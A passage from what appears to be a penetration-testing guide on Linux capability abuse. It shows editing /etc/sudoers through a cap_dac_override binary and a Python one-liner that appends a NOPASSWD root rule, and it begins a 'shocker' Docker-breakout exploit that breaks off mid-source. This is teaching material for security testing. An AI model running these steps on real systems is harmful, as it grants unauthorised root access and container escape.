 There are a lot of files you can **overwrite to escalate privileges,** [**you can get ideas from here**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).

#### Example with binary

In this example vim has this capability, so you can modify any file like _passwd_, _sudoers_ or _shadow_:

```bash
getcap -r / 2>/dev/null
/usr/bin/vim = cap_dac_override+ep

vim /etc/sudoers #To overwrite it
```

#### Example with binary 2

In this example **`python`** binary will have this capability. You could use python to override any file:

```python
file=open("/etc/sudoers","a")
file.write("yourusername ALL=(ALL) NOPASSWD:ALL")
file.close()
```

#### Example with environment + CAP\_DAC\_READ\_SEARCH (Docker breakout)

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

First of all read the previous section that [**abuses DAC\_READ\_SEARCH capability to read arbitrary files**](linux-capabilities.md#cap\_dac\_read\_search) of the host and **compile** the exploit.\
Then, **compile the following version of the shocker exploit** that ill allow you to **write arbitrary files** inside the hosts filesystem:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd 

struct my_file_handle {
```